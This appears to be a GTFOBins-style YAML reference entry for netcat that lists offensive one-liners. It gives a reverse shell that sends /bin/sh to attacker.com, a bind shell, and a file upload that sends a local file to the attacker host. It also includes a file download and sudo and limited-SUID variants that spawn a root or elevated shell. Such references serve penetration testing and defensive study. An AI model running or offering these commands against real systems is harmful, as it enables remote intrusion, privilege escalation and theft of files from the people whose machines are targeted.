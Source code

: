 ```yaml
---
functions:
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
      code: |
        RHOST=attacker.com
        RPORT=12345
        nc -e /bin/sh $RHOST $RPORT
  bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This only works with netcat traditional.
      code: |
        LPORT=12345
        nc -l -p $LPORT -e /bin/sh
  file-upload:
    - description: Send a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        nc $RHOST $RPORT < "$LFILE"
  file-download:
    - description: Fetch remote file sent to a local TCP port. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        LPORT=12345
        LFILE=file_to_save
        nc -l -p $LPORT > "$LFILE"
  sudo:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
      code: |
        RHOST=attacker.com
        RPORT=12345
        sudo nc -e /bin/sh $RHOST $RPORT
  limited-suid:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./nc -e /bin/sh $RHOST $RPORT
---
```

